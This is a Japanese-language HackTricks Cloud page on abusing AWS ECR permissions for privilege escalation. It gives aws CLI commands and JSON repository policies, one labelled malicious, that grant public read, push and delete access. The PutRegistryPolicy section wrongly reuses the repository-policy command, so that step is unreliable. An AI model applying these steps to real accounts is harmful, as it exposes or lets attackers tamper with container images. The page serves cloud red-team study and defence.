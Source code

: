 # AWS - ECR Privesc

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

**`ecr:GetAuthorizationToken`** と **`ecr:BatchGetImage`** を持つ攻撃者は ECR にログインしてイメージをダウンロードできます。

イメージのダウンロード方法の詳細については、以下を参照してください:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**潜在的な影響:** トラフィック内の機密情報を傍受することで間接的な特権昇格が可能です。

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

これらの権限を持つ攻撃者は ECR にログインしてイメージをアップロードできます。これは、そのイメージが使用されている他の環境への特権昇格に役立ちます。

新しいイメージをアップロード/更新する方法については、以下をチェックしてください:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

前述のセクションと同様ですが、パブリックリポジトリ向けです。

### `ecr:SetRepositoryPolicy`

この権限を持つ攻撃者は、**リポジトリポリシー**を変更して自身（または誰でも）に**読み取り/書き込みアクセス**を付与できます。\
例えば、この例では、誰でもが読み取りアクセスを持つようになります。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json`の内容：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ecr:GetDownloadUrlForLayer",
                "ecr:BatchGetImage",
                "ecr:BatchCheckLayerAvailability"
            ],
            "Resource": "*"
        }
    ]
}
```
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

前のセクションと同様ですが、パブリックリポジトリ向けです。\
攻撃者は、ECR Publicリポジトリのリポジトリポリシーを変更して、不正なパブリックアクセスを許可したり、特権をエスカレートしたりすることができます。

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**潜在的影響**: ECR Publicリポジトリへの不正なパブリックアクセスが許可され、任意のユーザーがイメージをプッシュ、プル、または削除できる可能性があります。

### `ecr:PutRegistryPolicy`

この権限を持つ攻撃者は、**レジストリポリシー**を変更して、自分自身、自分のアカウント（または誰でも）に**読み書きアクセス**を付与することができます。
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出してハッキングトリックを共有してください。

</details>
{% endhint %}
